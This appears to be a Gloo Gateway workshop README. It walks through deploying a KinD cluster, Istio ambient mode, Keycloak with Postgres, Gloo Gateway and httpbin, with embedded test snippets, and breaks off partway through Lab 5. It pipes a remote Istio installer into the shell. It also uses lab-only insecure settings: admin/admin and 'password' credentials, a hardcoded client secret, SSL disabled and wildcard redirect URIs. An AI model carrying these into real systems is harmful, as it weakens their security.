

<!--bash
source ./scripts/assert.sh
-->


<center>

</center>

# <center>Gloo Gateway Workshop</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy KinD Cluster(s)](#lab-1---deploy-kind-cluster(s)-)
* [Lab 2 - Deploy Istio in Ambient mode](#lab-2---deploy-istio-in-ambient-mode-)
* [Lab 3 - Deploy Keycloak](#lab-3---deploy-keycloak-)
* [Lab 4 - Deploy Gloo Gateway](#lab-4---deploy-gloo-gateway-)
* [Lab 5 - Deploy the httpbin demo app](#lab-5---deploy-the-httpbin-demo-app-)
* [Lab 6 - Expose the httpbin application through the gateway](#lab-6---expose-the-httpbin-application-through-the-gateway-)
* [Lab 7 - Delegate with control](#lab-7---delegate-with-control-)
* [Lab 8 - Modify the requests and responses](#lab-8---modify-the-requests-and-responses-)
* [Lab 9 - Split traffic between 2 backend services](#lab-9---split-traffic-between-2-backend-services-)
* [Lab 10 - Securing the access with OAuth](#lab-10---securing-the-access-with-oauth-)
* [Lab 11 - Use the transformation filter to manipulate headers](#lab-11---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 12 - Apply rate limiting to the Gateway](#lab-12---apply-rate-limiting-to-the-gateway-)
* [Lab 13 - Use the JWT filter to validate JWT and create headers from claims](#lab-13---use-the-jwt-filter-to-validate-jwt-and-create-headers-from-claims-)
* [Lab 14 - Use the Web Application Firewall filter](#lab-14---use-the-web-application-firewall-filter-)
* [Lab 15 - Use the `cache-control` response header to cache responses](#lab-15---use-the-`cache-control`-response-header-to-cache-responses-)
* [Lab 16 - Deploy and use waypoint](#lab-16---deploy-and-use-waypoint-)


## Introduction <a name="introduction"></a>

<a href="https://www.solo.io/products/gloo-gateway/">Gloo Gateway</a> is a feature-rich, fast, and flexible Kubernetes-native ingress controller and next-generation API gateway that is built on top of <a href="https://www.envoyproxy.io/">Envoy proxy</a> and the <a href="https://gateway-api.sigs.k8s.io/">Kubernetes Gateway API</a>).

Gloo Gateway is fully conformant with the Kubernetes Gateway API and extends its functionality with Solo’s custom Gateway APIs, such as `RouteOption`, `VirtualHostOption`, `Upstream`s, `RateLimitConfig`, or `AuthConfig`.
These resources help to centrally configure routing, security, and resiliency rules for a specific component, such as a host, route, or gateway listener.

These capabilities are grouped into two editions of Gloo Gateway:

### Open source (OSS) Gloo Gateway

Use Kubernetes Gateway API-native features and the following Gloo Gateway extensions to configure basic routing, security, and resiliency capabilities:

* Access logging
* Buffering
* Cross-Origin Resource Sharing (CORS)
* Cross-Site Request Forgery (CSRF)
* Fault injection
* Header control
* Retries
* Timeouts
* Traffic tapping
* Transformations

### Gloo Gateway Enterprise Edition

In addition to the features provided by the OSS edition, many more features are available in the Enterprise Edition, including:

* External authentication and authorization
* External processing
* Data loss prevention
* Developer portal
* JSON web token (JWT)
* Rate limiting
* Response caching
* Web Application Filters

### Want to learn more about Gloo Gateway?

In the labs that follow we present some of the common patterns that our customers use and provide a good entry point into the workings of Gloo Gateway.

You can find more information about Gloo Gateway in the official documentation: <https://docs.solo.io/gateway/>.


## Lab 1 - Deploy KinD Cluster(s) <a name="lab-1---deploy-kind-cluster(s)-"></a>


Clone this repository and go to the directory where this `README.md` file is.

Set the context environment variables:

```bash
export CLUSTER1=cluster1
```

Deploy the KinD clusters:
```bash
bash ./data/steps/deploy-kind-clusters/deploy-cluster1.sh
```
Then run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh cluster1
```

**Note:** If you run the `check.sh` script immediately after the `deploy.sh` script, you may see a jsonpath error. If that happens, simply wait a few seconds and try again.

Once the `check.sh` script completes, execute the `kubectl get pods -A` command, and verify that all pods are in a running state.
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Clusters are healthy", () => {
    const clusters = ["cluster1"];

    clusters.forEach(cluster => {
        it(`Cluster ${cluster} is healthy`, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "default", k8sType: "service", k8sObj: "kubernetes" }));
    });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-kind-clusters/tests/cluster-healthy.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 2 - Deploy Istio in Ambient mode <a name="lab-2---deploy-istio-in-ambient-mode-"></a>


Download the Istio release:

```bash
curl -L https://istio.io/downloadIstio | sh -

if [ -d "istio-"*/ ]; then
    cd istio-*/
    export PATH=$PWD/bin:$PATH
    cd ..
fi
```

Install Istio in Ambient mode:

```bash
helm upgrade --install istio-base \
  oci://us-docker.pkg.dev/gloo-mesh/istio-helm-<enterprise_istio_repo>/base \
  -n istio-system --create-namespace \
  --version 1.23.2-solo \
  --kube-context ${CLUSTER1} \
  --wait

helm upgrade --install istio-cni \
  oci://us-docker.pkg.dev/gloo-mesh/istio-helm-<enterprise_istio_repo>/cni \
  -n istio-system \
  --version 1.23.2-solo \
  --set profile=ambient \
  --set global.hub=us-docker.pkg.dev/gloo-mesh/istio-<enterprise_istio_repo> \
  --set global.tag=1.23.2-solo \
  --kube-context ${CLUSTER1} \
  --wait

helm upgrade --install istiod \
  oci://us-docker.pkg.dev/gloo-mesh/istio-helm-<enterprise_istio_repo>/istiod \
  -n istio-system \
  --version 1.23.2-solo \
  --set profile=ambient \
  --set global.hub=us-docker.pkg.dev/gloo-mesh/istio-<enterprise_istio_repo> \
  --set global.tag=1.23.2-solo \
  --kube-context ${CLUSTER1} \
  --wait

helm upgrade --install ztunnel \
  oci://us-docker.pkg.dev/gloo-mesh/istio-helm-<enterprise_istio_repo>/ztunnel \
  -n istio-system \
  --version 1.23.2-solo \
  --set profile=ambient \
  --set hub=us-docker.pkg.dev/gloo-mesh/istio-<enterprise_istio_repo> \
  --set tag=1.23.2-solo \
  --set env.L7_ENABLED="true" \
  --kube-context ${CLUSTER1} \
  --wait
```

Run the following command to check the Istio Pods are running:

```bash
kubectl --context ${CLUSTER1} -n istio-system get pods
```

Here is the expected output:

```,nocopy
NAME                      READY   STATUS    RESTARTS   AGE
istio-cni-node-75ds2      1/1     Running   0          86s
istiod-7758df6879-pcvjt   1/1     Running   0          45s
ztunnel-zgf7b             1/1     Running   0          13s
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Istio", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["istiod"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "istio-system", k8sObj: deploy }));
  });
  let DaemonSets = ["istio-cni-node", "ztunnel"];
  DaemonSets.forEach(DaemonSet => {
    it(DaemonSet + ' pods are ready in ' + cluster, () => helpers.checkDaemonSet({ context: cluster, namespace: "istio-system", k8sObj: DaemonSet }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-istio-ambient/tests/check-istio.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 3 - Deploy Keycloak <a name="lab-3---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users.

OpenID Connect (OIDC) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-Based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to set up OIDC workflows later.

But, first of all, we're going to deploy Keycloak to persist the data if Keycloak restarts.

```bash
kubectl --context ${CLUSTER1} create namespace gloo-system
kubectl --context ${CLUSTER1} label namespace gloo-system istio.io/dataplane-mode=ambient
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: postgres
  namespace: gloo-system
---
apiVersion: v1
kind: Secret
metadata:
  name: postgres-secrets
  namespace: gloo-system
type: Opaque
data:
  POSTGRES_DB: ZGI=
  POSTGRES_USER: YWRtaW4=
  POSTGRES_PASSWORD: YWRtaW4=
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: postgres-pvc
  namespace: gloo-system
spec:
  accessModes:
    - ReadWriteOnce
  resources:
    requests:
      storage: 5Gi
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: postgres
  namespace: gloo-system
spec:
  replicas: 1
  selector:
    matchLabels:
      app: postgres
  template:
    metadata:
      labels:
        app: postgres
    spec:
      serviceAccountName: postgres
      volumes:
        - name: postgres-storage
          persistentVolumeClaim:
            claimName: postgres-pvc
      containers:
        - name: postgres
          image: postgres:13.2-alpine
          imagePullPolicy: 'IfNotPresent'
          ports:
            - containerPort: 5432
          envFrom:
            - secretRef:
                name: postgres-secrets
          volumeMounts:
            - name: postgres-storage
              mountPath: /var/lib/postgresql/data
              subPath: postgres
---
apiVersion: v1
kind: Service
metadata:
  name: postgres
  namespace: gloo-system
spec:
  selector:
    app: postgres
  ports:
    - port: 5432
EOF
```
Let's create the `keycloak` namespace and label it to be part of the mesh:

```bash
kubectl --context ${CLUSTER1} create namespace keycloak
kubectl --context ${CLUSTER1} label namespace keycloak istio.io/dataplane-mode=ambient
```

Wait while Postgres finishes rolling out:

```bash
kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy/postgres

sleep 5
```

Create the database and user for Keycloak:

```bash
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "CREATE DATABASE keycloak;"
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "CREATE USER keycloak WITH PASSWORD 'password';"
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "GRANT ALL PRIVILEGES ON DATABASE keycloak TO keycloak;"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Postgres", () => {
  it('postgres pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "gloo-system", k8sObj: "postgres" }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-keycloak/tests/postgres-available.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

First, we need to define an ID and secret for a "client", which will be the service that delegates to Keycloak for authorization:

```bash
KEYCLOAK_CLIENT=gloo-ext-auth
KEYCLOAK_SECRET=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri
```

We need to store these in a secret accessible by the ext auth service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: gloo-system
type: extauth.solo.io/oauth
stringData:
  client-id: ${KEYCLOAK_CLIENT}
  client-secret: ${KEYCLOAK_SECRET}
EOF
```

We need to supply the initial configuration of the realm we'll use for these labs.
This will include the client with the ID and secret we defined above, as well as two users that we can use later:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

Create this configuration in a `ConfigMap`:

```bash
kubectl --context ${CLUSTER1} create namespace keycloak

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
data:
  workshop-realm.json: |-
    {
      "realm": "workshop",
      "enabled": true,
      "displayName": "solo.io",
      "accessTokenLifespan": 1800,
      "sslRequired": "none",
      "users": [
        {
          "username": "user1",
          "enabled": true,
          "email": "user1@example.com",
          "attributes": {
            "group": [
              "users"
            ],
            "subscription": [
              "enterprise"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"JsfNbCOIdZUbyBJ+BT+VoGI91Ec2rWLOvkLPDaX8e9k=\",\"salt\":\"P5rtFkGtPfoaryJ6PizUJw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "user2",
          "enabled": true,
          "email": "user2@solo.io",
          "attributes": {
            "group": [
              "users"
            ],
            "subscription": [
              "free"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"RITBVPdh5pvXOa4JzJ5pZTE0rG96zhnQNmSsKCf83aU=\",\"salt\":\"drB9e5Smf3cbfUfF3FUerw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "admin1",
          "enabled": true,
          "email": "admin1@solo.io",
          "attributes": {
            "group": [
              "admin"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData" : "{\"value\":\"BruFLfFkjH/8erZ26NnrbkOrWiZuQyDRCHD9o0R6Scg=\",\"salt\":\"Cf9AYCE5pAbb4CKEF0GUTA==\",\"additionalParameters\":{}}",
              "credentialData" : "{\"hashIterations\":5,\"algorithm\":\"argon2\",\"additionalParameters\":{\"hashLength\":[\"32\"],\"memory\":[\"7168\"],\"type\":[\"id\"],\"version\":[\"1.3\"],\"parallelism\":[\"1\"]}}"
            }
          ]
        }
      ],
      "clients": [
        {
          "clientId": "${KEYCLOAK_CLIENT}",
          "secret": "${KEYCLOAK_SECRET}",
          "redirectUris": [
            "*"
          ],
          "webOrigins": [
            "+"
          ],
          "authorizationServicesEnabled": true,
          "directAccessGrantsEnabled": true,
          "serviceAccountsEnabled": true,
          "protocolMappers": [
            {
              "name": "group",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "group",
                "user.attribute": "group",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "show_personal_data",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "show_personal_data",
                "user.attribute": "show_personal_data",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "subscription",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "subscription",
                "user.attribute": "subscription",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "name",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-property-mapper",
              "config": {
                "claim.name": "name",
                "user.attribute": "username",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            }
          ]
        }
      ],
      "components": {
        "org.keycloak.userprofile.UserProfileProvider": [
          {
            "providerId": "declarative-user-profile",
            "config": {
              "kc.user.profile.config": [
                "{\"attributes\":[{\"name\":\"username\"},{\"name\":\"email\"}],\"unmanagedAttributePolicy\":\"ENABLED\"}"
              ]
            }
          }
        ]
      }
    }
  portal-realm.json: |
    {
      "realm": "portal-mgmt",
      "enabled": true,
      "sslRequired": "none",
      "roles": {
        "client": {
          "gloo-portal-idp": [
            {
              "name": "uma_protection",
              "composite": false,
              "clientRole": true,
              "attributes": {}
            }
          ]
        },
        "realm": [
          {
            "name": "default-roles-portal-mgmt",
            "description": "${role_default-roles}",
            "composite": true,
            "composites": {
              "realm": [
                "offline_access",
                "uma_authorization"
              ],
              "client": {
                "account": [
                  "manage-account",
                  "view-profile"
                ]
              }
            },
            "clientRole": false,
            "attributes": {}
          },
          {
            "name": "uma_authorization",
            "description": "${role_uma_authorization}",
            "composite": false,
            "clientRole": false
          }
        ]
      },
      "users": [
        {
          "username": "service-account-gloo-portal-idp",
          "createdTimestamp": 1727724261768,
          "emailVerified": false,
          "enabled": true,
          "totp": false,
          "serviceAccountClientId": "gloo-portal-idp",
          "disableableCredentialTypes": [],
          "requiredActions": [],
          "realmRoles": [
            "default-roles-portal-mgmt"
          ],
          "clientRoles": {
            "realm-management": [
              "manage-clients"
            ],
            "gloo-portal-idp": [
              "uma_protection"
            ]
          },
          "notBefore": 0,
          "groups": []
        }
      ],
      "clients": [
        {
          "clientId": "gloo-portal-idp",
          "enabled": true,
          "name": "Solo.io Gloo Portal Resource Server",
          "clientAuthenticatorType": "client-secret",
          "secret": "gloo-portal-idp-secret",
          "serviceAccountsEnabled": true,
          "authorizationServicesEnabled": true,
          "authorizationSettings": {
            "allowRemoteResourceManagement": true,
            "policyEnforcementMode": "ENFORCING",
            "resources": [
              {
                "name": "Default Resource",
                "type": "urn:gloo-portal-idp:resources:default",
                "ownerManagedAccess": false,
                "attributes": {},
                "uris": [
                  "/*"
                ]
              }
            ],
            "policies": [
              {
                "name": "Default Policy",
                "description": "A policy that grants access only for users within this realm",
                "type": "regex",
                "logic": "POSITIVE",
                "decisionStrategy": "AFFIRMATIVE",
                "config": {
                  "targetContextAttributes" : "false",
                  "pattern" : ".*",
                  "targetClaim" : "sub"
                }
              },
              {
                "name": "Default Permission",
                "description": "A permission that applies to the default resource type",
                "type": "resource",
                "logic": "POSITIVE",
                "decisionStrategy": "UNANIMOUS",
                "config": {
                  "defaultResourceType": "urn:gloo-portal-idp:resources:default",
                  "applyPolicies": "[\"Default Policy\"]"
                }
              }
            ],
            "scopes": [],
            "decisionStrategy": "UNANIMOUS"
          }
        }
      ]
    }
kind: ConfigMap
metadata:
  name: realms
  namespace: keycloak
EOF
```

Now let's install Keycloak:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:25.0.5
        args:
        - start-dev
        - --import-realm
        - --proxy-headers=xforwarded
        - --features=hostname:v1
        - --hostname-strict=false
        - --hostname-strict-https=false
        env:
        - name: KEYCLOAK_ADMIN
          value: admin
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: admin
        - name: KC_DB
          value: postgres
        - name: KC_DB_URL
          value: jdbc:postgresql://postgres.gloo-system.svc.cluster.local:5432/keycloak
        - name: KC_DB_USERNAME
          value: keycloak
        - name: KC_DB_PASSWORD
          value: password
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/workshop
            port: 8080
        volumeMounts:
        - name: realms
          mountPath: /opt/keycloak/data/import
      volumes:
      - name: realms
        configMap:
          name: realms
EOF
```

Wait while Keycloak finishes rolling out:

```bash
kubectl --context ${CLUSTER1} -n keycloak rollout status deploy/keycloak
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->
<!--bash
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${CLUSTER1} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->


## Lab 4 - Deploy Gloo Gateway <a name="lab-4---deploy-gloo-gateway-"></a>

You can deploy Gloo Gateway with the `glooctl` CLI or declaratively using Helm.

We're going to use the Helm option.

Install the Kubernetes Gateway API CRDs as they do not come installed by default on most Kubernetes clusters.

```bash
kubectl --context $CLUSTER1 apply -f https://github.com/kubernetes-sigs/gateway-api/releases/download/v1.2.0/experimental-install.yaml
```
Let's create the `gloo-system` namespace and label it to be part of the mesh:

```bash
kubectl --context $CLUSTER1 create namespace gloo-system
kubectl --context $CLUSTER1 label namespace gloo-system istio.io/dataplane-mode=ambient
```


Next, install Gloo Gateway. This command installs the Gloo Gateway control plane into the namespace `gloo-system`.

```bash
helm repo add gloo-ee-helm https://storage.googleapis.com/gloo-ee-helm

helm repo update

helm upgrade -i -n gloo-system \
  gloo-gateway gloo-ee-helm/gloo-ee \
  --create-namespace \
  --version 1.18.0-rc6 \
  --kube-context $CLUSTER1 \
  --set-string license_key=$LICENSE_KEY \
  -f -<<EOF

gloo:
  kubeGateway:
    enabled: true
    portal:
      enabled: true
  gatewayProxies:
    gatewayProxy:
      disabled: true
  gateway:
    validation:
      allowWarnings: true
      alwaysAcceptResources: false
  gloo:
    logLevel: info
    deployment:
      customEnv:
        - name: ENABLE_WAYPOINTS
          value: "true"
      livenessProbeEnabled: true
  discovery:
    enabled: false
  rbac:
    namespaced: true
    nameSuffix: gg-demo
observability:
  enabled: false
prometheus:
  enabled: false
grafana:
  defaultInstallationEnabled: false
gloo-fed:
  enabled: false
  glooFedApiserver:
    enable: false
settings:
  disableKubernetesDestinations: true
global:
  extensions:
    caching:
      enabled: true
ambient:
  waypoint:
    enabled: true
EOF

kubectl --context ${CLUSTER1} patch settings default -n gloo-system --type json \
  -p '[{ "op": "remove", "path": "/spec/cachingServer" }]'
```


Run the following command to check that the Gloo Gateway pods are running:

<!--bash
echo -n Waiting for Gloo Gateway pods to be ready...
kubectl --context $CLUSTER1 -n gloo-system rollout status deployment
-->
```bash
kubectl --context $CLUSTER1 -n gloo-system get pods
```

Here is the expected output:

```,nocopy
NAME                                         READY   STATUS      RESTARTS   AGE
caching-service-79cf55ccbb-dcvgp             1/1     Running     0          69s
extauth-58f68c5cd5-gxgxc                     1/1     Running     0          69s
gateway-portal-web-server-5c5d58d8d5-7lzwg   1/1     Running     0          69s
gloo-7d8994697-lfg5x                         1/1     Running     0          69s
gloo-resource-rollout-check-x8b77            0/1     Completed   0          69s
gloo-resource-rollout-cjtgh                  0/1     Completed   0          69s
rate-limit-6db9c67794-vf7h2                  1/1     Running     0          69s
redis-6c7c489d8c-g2dhc                       1/1     Running     0          69s
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Gloo Gateway", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["gloo", "extauth", "rate-limit", "redis"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-system", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-gloo-gateway-enterprise/tests/check-gloo.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 5 - Deploy the httpbin demo app <a name="lab-5---deploy-the-httpbin-demo-app-"></a>


We're going to deploy the httpbin application to demonstrate several features of Gloo Gateway.

You can find more information about this application [here](http://httpbin.org/).

Run the following commands to deploy the httpbin app twice (`httpbin1` and `httpbin2`).

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl --context ${CLUSTER1} label namespace httpbin istio.io/dataplane-mode=ambient
kubectl --context ${CLUSTER1} label namespace httpbin istio-injection=disabled
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: httpbin1
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: httpbin1
  namespace: httpbin
  labels:
    app: httpbin1
    service: httpbin1
spec:
  ports:
  - name: http
    port: 8000
    targetPort: http
    protocol: TCP
    appProtocol: http
  selector:
    app: httpbin1
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: httpbin1
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin1
      version: v1
  template:
    metadata:
      labels:
        app: httpbin1
        version: v1
    spec:
      serviceAccountName: httpbin1
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.14.0
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: httpbin2
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: httpbin2
  namespace: httpbin
  labels:
    app: httpbin2
    service: httpbin2
spec:
  ports:
  - name: http
    port: 8000
    targetPort: http
    protocol: TCP
    appProtocol: http
  selector:
    app: httpbin2
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: httpbin2
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin2
      version: v1
  template:
    metadata:
      labels:
        app: httpbin2
        version: v1
    spec:
      serviceAccountName: httpbin2
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.14.0
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
EOF
```

You can follow the progress using the following command:

